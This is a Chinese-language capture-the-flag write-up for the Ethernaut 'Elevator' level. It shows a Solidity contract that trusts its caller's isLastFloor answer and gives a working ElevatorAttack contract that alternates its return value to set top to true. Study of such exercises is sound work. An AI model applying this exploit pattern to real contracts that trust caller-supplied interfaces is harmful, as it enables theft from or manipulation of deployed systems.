

# 11. Elevator
### 原题
```
电梯不会让你达到大楼顶部, 对吧?
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
### 分析
意思是我想到顶楼，但是电梯不让到顶楼。\
刚开始，整个懵逼。\
后来分析了下代码，才明白这个意思。\
到了顶楼，然后能把top值改为true。\
进入条件是“!building.isLastFloor(_floor)”，只有不是顶楼才会修改top值。\
如果到了顶楼，“building.isLastFloor(_floor) == true”,\
是没法修改top为true的。这个整个逻辑是互锁的。\
需要我们想策略使得top等于true。\
如果building.isLastFloor(_floor)第一次调用是false，\
然后第二次调用是true，那就正好可以破解了。\
isLastFloor方法里需要做点技巧了。\
那就需要一个变量来控制输出。\
能够达到每次返回的结果和前一次结果相反。\
有以下方案：\
使用具名返回值，可以不需要return， 这个返回值等于一个状态变量值，\
可以在设置返回值后，再把这个状态变量改成相反的值，\
等待下一次函数的调用再使用

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
  function goTo(uint256 _floor) external ;
}

contract ElevatorAttack {

    bool public rs;
    IElevator public elevator;

    constructor(address _elevator) {
      elevator = IElevator(_elevator);
    }

    function goTo(uint256 _floor) public {
      elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool r) {

      r = rs;
      //r设置为false，接着把rs修改为true，等待下一次执行的时候，r = true
      rs = !rs;
    }

}
```

